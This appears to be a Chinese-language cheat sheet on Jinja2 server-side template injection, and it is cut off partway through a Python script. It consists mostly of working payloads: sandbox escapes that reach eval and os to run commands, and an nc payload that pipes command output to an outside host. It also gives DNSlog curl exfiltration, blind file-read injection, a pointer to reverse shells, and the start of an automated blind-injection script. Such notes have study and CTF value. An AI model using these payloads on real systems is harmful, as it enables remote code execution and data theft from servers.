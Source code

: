 ```jinja2
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("whoami").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

```jinja2
#存在的子模块可以通过.index()来进行查询，如果存在的话返回索引，直接调用即可：
{{''.__class__.__mro__[2].__subclasses__().index(file)}}
#40
```

### 无回显

这里可以看[SSTI/沙盒逃逸详细总结 - 安全客，安全资讯平台](https://www.anquanke.com/post/id/188172#h2-11)的无回显部分，为了方便查看，我就摘取下来了

*   利用nc 转发

    服务器开启 `nc -lvp 44444`

    playload `{{''.__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['os'].system('ls | nc xx.xxx.xx.xx 44444')}}`

    如果嫌一次一次转发太复杂也可以考虑直接反弹交互型shell。（反弹shell的操作网上也一大堆，这里就不多赘述了，可以参考：https://github.com/0xR0/shellver）

*   dnslog转发

    curl `whoami`.xxxxxx

    参考[巧用DNSlog实现无回显注入](https://www.cnblogs.com/afanti/p/8047530.html)

-   建立本地文件再读取

    这个也很好理解，针对system无回显，直接执行`ls > a.txt`，再用open进行读取

-   curl上传文件

    这个方法没有实践过，某师傅博客上翻到的，记录一下或许今后就用到了。[无回显代码执行利用方法](http://admintony.com/无回显代码执行利用方法.html)

-   盲注

    `{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}~p0~{% endif %}`类似SQL布尔注入，通过是否回显~p0~来判断注入是否成功。网上现有脚本如下：

    ```
    import requests
    
    url = 'http://127.0.0.1:8080/'
    
    def check(payload):
        postdata = {
            'exploit':payload
            }
        r = requests.post(url, data=postdata).content
        return '~p0~' in r
    